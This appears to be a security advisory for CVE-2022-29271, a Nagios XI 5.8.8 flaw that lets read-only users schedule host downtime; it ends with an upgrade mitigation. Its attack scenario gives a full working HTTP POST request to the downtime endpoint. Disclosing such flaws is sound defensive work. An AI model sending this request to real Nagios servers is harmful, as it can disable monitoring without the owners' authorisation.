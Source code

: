 An issue was discovered in Nagios XI 5.8.8 or earlier.

### Vulnerability: 
Read-only nagios user is able to schedule downtime

### Description:
A bug in Nagios XI 5.8.8 exists that allows a read-only user to schedule downtime. An attacker could exploit this vulnerability to e.g. permanently schedule all hosts into downtime, effectively stopping Nagios monitoring.

### Attack Scenario:
1. Log in as an read-only user
2. Send the following HTTP POST request as de read-only user (replace the cookie values with the ones of the current session):

POST /nagiosxi/includes/components/xicore/downtime.php?cmd=submit HTTP/1.1
Host: nagiosxi.demos.nagios.com
Cookie: __utmz=11341611.1649440044.1.1.utmcsr=(direct)|utmccn=(direct)|utmcmd=(none); __utma=11341611.45172755.1649440044.1649766250.1649878654.4; __utmc=11341611; __utmt=1; nagiosxi=2bd5iv500tlsc6sohfbichnk11; __utmb=11341611.19.10.1649878654
Content-Length: 213
Cache-Control: no-transform
Upgrade-Insecure-Requests: 1
Origin: https://nagiosxi.demos.nagios.com
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/55.0.2883.87 Safari/537.36 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: close

type=host&hosts%5B%5D=secure.nagios.com&com_author=Example+User&com_data=test&trigger=0&fixed=1&hours=2&minutes=0&start_time=2022-04-13+14%3A38%3A45&end_time=2022-04-13+16%3A38%3A45&childoptions=0&serviceoptions=0

### Mitigation:
To mitigate this vulnerability, update Nagios to version 5.8.9 or later. See also https://www.nagios.com/downloads/nagios-xi/change-log/

CVE-ID: CVE-2022-29271
